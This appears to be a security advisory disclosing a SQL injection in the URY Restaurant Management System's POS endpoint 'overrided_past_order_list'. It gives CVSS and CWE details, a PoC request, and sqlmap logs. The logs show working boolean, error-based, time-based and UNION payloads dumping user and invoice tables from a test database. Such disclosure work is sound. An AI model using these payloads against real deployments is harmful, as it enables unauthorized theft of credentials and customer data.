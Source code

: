 # ury-vulns

### Summary

A critical SQL injection vulnerability has been identified in the URY Restaurant Management System's POS (Point of Sale) module. This vulnerability allows unauthenticated or low-privileged attackers to bypass input sanitization and execute arbitrary SQL queries against the backend MariaDB database. Successful exploitation could lead to unauthorized data access, data exfiltration, data modification, or complete database compromise.

## Vulnerability Details

### Technical Summary

The `overrided_past_order_list` API endpoint in the POS extension module improperly handles user-supplied input in the `search_term` parameter. The application uses Python string formatting (`"%{}%".format()`) to construct SQL queries instead of parameterized queries, allowing attackers to inject malicious SQL code.

### Affected Component

- **File**: `ury/ury/api/pos_extend.py`
- **Function**: `overrided_past_order_list()`
- **Lines**: 56, 63
- **Endpoint**: `/api/method/ury.ury.api.pos_extend.overrided_past_order_list`
- **HTTP Method**: POST
- **Authentication**: Required (but low privilege sufficient)

### Vulnerability Classification

| Classification | Details |
|----------------|---------|
| **CWE** | CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') |
| **OWASP Top 10** | Injection |
| **WASC** | WASC-19: SQL Injection |
| **CAPEC** | CAPEC-66: SQL Injection |

### CVSS v3.1 Score

**Base Score: 8.5 (HIGH)**

```
CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N
```

**Vector Breakdown:**
- **Attack Vector (AV)**: Network - Exploitable remotely
- **Attack Complexity (AC)**: Low - No special conditions required
- **Privileges Required (PR)**: Low - Basic user account sufficient
- **User Interaction (UI)**: None - No user interaction needed
- **Scope (S)**: Changed - Can affect resources beyond vulnerable component
- **Confidentiality (C)**: High - Total information disclosure
- **Integrity (I)**: Low - Some modification possible
- **Availability (A)**: None - No direct availability impact


### PoC

```
POST /api/method/ury.ury.api.pos_extend.overrided_past_order_list HTTP/1.1
Host: localhost:8000
Content-Type: application/json
User-Agent: Mozilla/5.0
Accept: application/json
Content-Length: 47

{"search_term":"*","status":"Draft","start":0}
```

<img width="462" height="239" alt="image" src="https://github.com/user-attachments/assets/08de380c-a7d8-4c3b-a5ae-a8af71d7a7d9" />


<img width="885" height="259" alt="image" src="https://github.com/user-attachments/assets/99a255e5-aa00-4280-a402-cf11b0026c38" />

```bash
[22:06:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: {"search_term":"-5917' OR 3019=3019#","status":"Draft","start":0}

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"search_term":"' AND (SELECT 4950 FROM(SELECT COUNT(*),CONCAT(0x71767a6a71,(SELECT (ELT(4950=4950,1))),0x716b767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- iJmX","status":"Draft","start":0}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"search_term":"' AND (SELECT 4647 FROM (SELECT(SLEEP(5)))FtuM)-- hRyJ","status":"Draft","start":0}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 9 columns
    Payload: {"search_term":"' UNION ALL SELECT NULL,NULL,CONCAT(0x71767a6a71,0x4454546e666a664c7372474d497662697251577a764d74564f63476251724352786a69546b787a78,0x716b767a71),NULL,NULL,NULL,NULL#","status":"Draft","start":0}
---
[22:06:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:06:20] [INFO] fetching columns for table 'tabUser' in database 'test_ury'
[22:06:20] [WARNING] reflective value(s) found and filtering out
[22:06:20] [INFO] fetching entries for table 'tabUser' in database 'test_ury'
Database: test_ury
Table: tabUser
[3 entries]
+-----------------------+-----------------------+---------+---------------------+-------------------------+---------------+
| email                 | name                  | enabled | creation            | password                | full_name     |
+-----------------------+-----------------------+---------+---------------------+-------------------------+---------------+
| admin@example.com     | Administrator         | 1       | 2025-10-28 11:48:01 | pbkdf2:sha256:test_hash | Administrator |
| cashier@example.com   | cashier@example.com   | 1       | 2025-10-28 11:48:01 | pbkdf2:sha256:test_hash | Cashier User  |
| test_user@example.com | test_user@example.com | 1       | 2025-10-28 11:48:01 | pbkdf2:sha256:test_hash | Test User     |
+-----------------------+-----------------------+---------+---------------------+-------------------------+---------------+
```

```bash
[22:07:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: {"search_term":"-5917' OR 3019=3019#","status":"Draft","start":0}

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"search_term":"' AND (SELECT 4950 FROM(SELECT COUNT(*),CONCAT(0x71767a6a71,(SELECT (ELT(4950=4950,1))),0x716b767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- iJmX","status":"Draft","start":0}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"search_term":"' AND (SELECT 4647 FROM (SELECT(SLEEP(5)))FtuM)-- hRyJ","status":"Draft","start":0}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 9 columns
    Payload: {"search_term":"' UNION ALL SELECT NULL,NULL,CONCAT(0x71767a6a71,0x4454546e666a664c7372474d497662697251577a764d74564f63476251724352786a69546b787a78,0x716b767a71),NULL,NULL,NULL,NULL#","status":"Draft","start":0}
---
[22:07:16] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:07:16] [INFO] fetching columns for table 'tabPOS Invoice' in database 'test_ury'
[22:07:16] [WARNING] reflective value(s) found and filtering out
[22:07:16] [INFO] fetching entries for table 'tabPOS Invoice' in database 'test_ury'
[22:07:16] [INFO] retrieved: 'SINV-00001','Draft','Main Branch','2025-10-28 11:48:01',' ','Main Hall','Test Customer 1','150.000000','0','2025-10-...
[22:07:16] [INFO] retrieved: 'SINV-00002','Paid','Main Branch','2025-10-28 11:48:01',' ','Main Hall','Test Customer 2','200.000000','0','2025-10-2...
[22:07:16] [INFO] retrieved: 'SINV-00003','Draft','Test Branch','2025-10-28 11:48:01',' ','VIP Room','Admin Test','350.000000','0','2025-10-28 11:...
[22:07:16] [INFO] retrieved: 'SINV-00004','Draft','Secret Branch','2025-10-28 11:48:01',' ','Secret Room','Secret Customer','999.990000','0','2025...
Database: test_ury                                                                                                                                  
Table: tabPOS Invoice
[4 entries]
+------------+---------------+----------+---------------------+----------+-----------------+---------------------+-------------+--------------+--------------+-----------------+------------------+------------------------+
| name       | branch        | status   | creation            | currency | customer        | modified            | grand_total | posting_date | posting_time | invoice_printed | restaurant_table | custom_restaurant_room |
+------------+---------------+----------+---------------------+----------+-----------------+---------------------+-------------+--------------+--------------+-----------------+------------------+------------------------+
| SINV-00001 | Main Branch   | Draft    | 2025-10-28 11:48:01 | NULL     | Test Customer 1 | 2025-10-28 11:48:01 | 150.000000  | NULL         | NULL         | 0               | Table-1          | Main Hall              |
| SINV-00002 | Main Branch   | Paid     | 2025-10-28 11:48:01 | NULL     | Test Customer 2 | 2025-10-28 11:48:01 | 200.000000  | NULL         | NULL         | 0               | NULL             | Main Hall              |
| SINV-00003 | Test Branch   | Draft    | 2025-10-28 11:48:01 | NULL     | Admin Test      | 2025-10-28 11:48:01 | 350.000000  | NULL         | NULL         | 0               | Table-VIP-1      | VIP Room               |
| SINV-00004 | Secret Branch | Draft    | 2025-10-28 11:48:01 | NULL     | Secret Customer | 2025-10-28 11:48:01 | 999.990000  | NULL         | NULL         | 0               | NULL             | Secret Room            |
+------------+---------------+----------+---------------------+----------+-----------------+---------------------+-------------+--------------+--------------+-----------------+------------------+------------------------+
```
